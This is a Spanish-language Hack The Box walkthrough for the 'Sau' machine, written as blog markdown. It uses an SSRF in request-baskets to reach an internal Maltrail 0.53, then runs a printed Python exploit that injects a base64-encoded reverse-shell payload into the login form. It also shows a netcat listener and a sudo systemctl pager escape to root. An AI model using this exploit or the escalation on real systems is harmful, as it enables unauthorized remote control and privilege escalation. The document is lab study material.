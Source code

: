 ```yaml
---
layout: single
title: Sau - Hack The Box
date: 2023-10-28
classes: wide
header:
  teaser: /assets/images/htb-writeup-sau/sau_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - RCE
  - CSRF
  - abuso sudoers
  - CVE-2023–27163
---
```



En esta máquina nos aprovecharemos de la vulnerabilidad del Mailtrail v0.53 para llevar a cabo un CSRF, en el cual aprovecharemos para poder ver qué servicio corren en puertos que externamente no tenemos acceso, una vez identificamos qué ahí allí nos aprovecharemos para explotar dicho servicio web que externamente no teníamos acceso & convertirlo en un RCE otorgándonos una Reverse Shell



# PortScan
____________

```
 nmap -p- --min-rate 5000 -vvv -Pn -n -sS 10.10.11.224 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 16:48 AST
Initiating SYN Stealth Scan at 16:48
Scanning 10.10.11.224 [65535 ports]
Discovered open port 22/tcp on 10.10.11.224
Discovered open port 55555/tcp on 10.10.11.224
Completed SYN Stealth Scan at 16:48, 14.11s elapsed (65535 total ports)
Nmap scan report for 10.10.11.224
Host is up, received user-set (0.070s latency).
Scanned at 2023-10-28 16:48:01 AST for 14s
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63
```

# Sitio Web
__________

![](/assets/images/htb-writeup-sau/Pasted image 20231028164933.png)


Sí indagamos un poco en busca de vulnerabilidades, encontraremos qué esta versión de "**request-baskets**" es vulnerable a un (**CSRF**), [(CVE-2023–27163)](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7), de manera qué podríamos aprovecharnos de esta vulnerabilidad para descubrir qué hay en el ":80" qué nos apareció como "filtered"


![](/assets/images/htb-writeup-sau/Pasted image 20231028165410.png)


Debemos tener todas las check's seleccionados, y en la URL indicar el localhost y que apunte al **:80**, esto para qué la misma máquina host apunte a su puerto & pueda visualizar que servicio corre en este puerto, probablemente un HTTP, ya qué exteriormente a lo mejor por reglas de "firewall" no podamos visualizar.


![](/assets/images/htb-writeup-sau/Pasted image 20231028165642.png)


Podemos ver que en el **":80"** está corriendo un **Mailtrail** con versión **0.53**, sí indagamos en busca de vulnerabilidades para este este aplicativo encontraremos qué podemos llevar a cabo un **RCE**, como sé explica en [éste artículo](https://securitylit.medium.com/exploiting-maltrail-v0-53-unauthenticated-remote-code-execution-rce-66d0666c18c5), y sí indagamos más encontraremos exploit para aprovecharnos de esta vulnerabilidad para otorgarnos una Reverse Shell, un script montado en python, a continuación se dejará el script utilizado.
```python
```py
import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```


Antes de llevar a cabo el script, nos ponemos en escucha con "netcat".
```
nc -nlvp 443
```

Para posterior a esto ejecutar el script con los parámetros indicados.
```
python3 exploit.py 10.10.14.116 443 http://10.10.11.224:55555/733up1m
```

Esto puede llevar un poco de tiempo, pero al cabo de un rato nos otorgará una reverse shell.


![](/assets/images/htb-writeup-sau/Pasted image 20231028170555.png)


# Escalada de Privilegios
______


Sí nos fijamos en nuestro permisos sudoers con:
```
sudo -l
```


![](/assets/images/htb-writeup-sau/Pasted image 20231028170807.png)

Veremos qué podemos ejecutar el binario **"systemctl status trail.service"** como todos los usuarios y sin proporcionar contraseñas, por ende podemos aprovecharnos de esto para ejecutar con sudo este binario & como está configurado no nos pedirá la credenciales del usuario actual, por lo qué tan sólo debemos poner el "sudo" delante del binario, es decir esto:

```
sudo systemctl status trail.service
```

Nos abrirá el binario como **Root**, y para aprovecharnos de esto debemos hacer como cuando usamos **vim** que nos abrimos el apartado para guardar, quitar, etcera, es decir "q" o "w", pero en vez de esto llamaremos una **tty**, ya sea una bash, sh o cualquiera otra, pero para esto debemos poner un signo de admiración hacia abajo y luego llamar la consola, como veremos a contiuación

![](/assets/images/htb-writeup-sau/Pasted image 20231028171134.png)


Posterior a ello obtendremos la tty indicada pero como Root.


![](/assets/images/htb-writeup-sau/Pasted image 20231028171815.png)
